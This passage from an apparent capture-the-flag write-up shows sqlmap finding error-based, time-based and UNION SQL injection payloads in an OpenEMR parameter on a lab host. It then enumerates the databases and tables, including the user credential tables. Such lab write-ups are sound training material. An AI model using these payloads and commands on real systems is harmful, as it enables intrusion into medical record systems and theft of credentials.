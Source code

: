         Type: error-based                                     
        Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
        Payload: eid=1 AND EXTRACTVALUE(4940,CONCAT(0x5c,0x7178767871,(SELECT (ELT(4940=4940,1))),0x716a787671))
    
        Type: time-based blind                                
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: eid=1 AND (SELECT 9065 FROM (SELECT(SLEEP(5)))uzSl)
    
        Type: UNION query                                     
        Title: Generic UNION query (NULL) - 4 columns
        Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7178767871,0x5175594d4b427175765279616a4544664a7176636a65436e5655646d6174516b676e556d6b624568,0x716a787671),NULL-- -
    ---                                                       
    [11:38:31] [INFO] the back-end DBMS is MySQL                                                                         
    back-end DBMS: MySQL >= 5.1                               
    [11:38:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'
    

There are four different injection attacks.

Now list the dbs:

    
    
    root@kali# sqlmap -r add_edit_event_user.request --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema                                    
    [*] openemr    
    

Tables in `openemr`:

    
    
    root@kali# sqlmap -r add_edit_event_user.request -D openemr --tables
    ...[snip]...
    Database: openemr
    [234 tables]                                              
    +---------------------------------------+
    | array                                 |
    | groups                                |
    | sequences                             |
    | version                               |
    ...[snip]...
    | user_settings                         |
    | users                                 |
    | users_facility                        |
    | users_secure                          |
    | valueset                              |
    | voids                                 |
    | x12_partners                          |
    +---------------------------------------+
    ...[snip]...
    